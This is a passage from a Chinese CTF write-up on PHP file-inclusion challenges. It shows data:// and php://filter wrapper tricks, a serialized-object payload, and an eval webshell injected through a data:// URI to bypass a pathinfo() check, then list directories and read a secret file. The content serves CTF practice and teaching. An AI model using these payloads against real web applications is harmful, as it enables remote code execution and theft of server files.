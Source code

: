     b、用data://伪协议绕过 ,`?text=data://text/plain,welcome to the zjctf`
   将url改为：`?xxx=data://text/plain;base64,(base64编码的内容)`
   	或	改为：`?xxx=data:text/plain,(url编码的内容)`

   ![](https://i.loli.net/2021/02/24/GD46ewrWXPJY9q2.png)

2. 利用php://filter获取useless.php源码
   `php://filter/read=convert.base64-encode/resource=useless.php`

3. 反序列化获取flag
   `password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

### ctfshow7月赛cjb-warmup签到

![](https://i.loli.net/2021/07/10/J8hfoviskt2qEdz.png)

简单分析下题目
1、GET传参进行文件包含
2、利用pathinfo函数检测传入的参数file的后缀名

因为做的时候已经是11点了00
打开手机就看群里的师傅说伪协议getshell
一开始是打算用php://filter读文件的不过不知道flag的文件名“
所以还是用data协议getshell来拿00
但要先解决pathinfo()函数，经过实验，他不会管.php前面的东东，只需要令最后以`.php`结尾就可以了

在phpinfo可以看到system和exec等等被禁用了，所以不能直接执行命令，或者可以尝试用蚁剑绕过

payload：

```php
1:
file=data://text/plain,<?php eval($_GET[233]);?>.php
&233=phpinfo();

2:利用scandir()+glob伪协议获得目录00，可以看到个secret
file=data://text/plain,<?php eval($_GET[233]);?>.php
&233=var_dump(scandir("glob:///*"));

3:用file_get_contents读内容
file=data://text/plain,<?php eval($_GET[233]);?>.php&233=echo file_get_contents("/secret");
```

![](https://i.loli.net/2021/07/10/bsSR64Uji5ZvBzI.png)
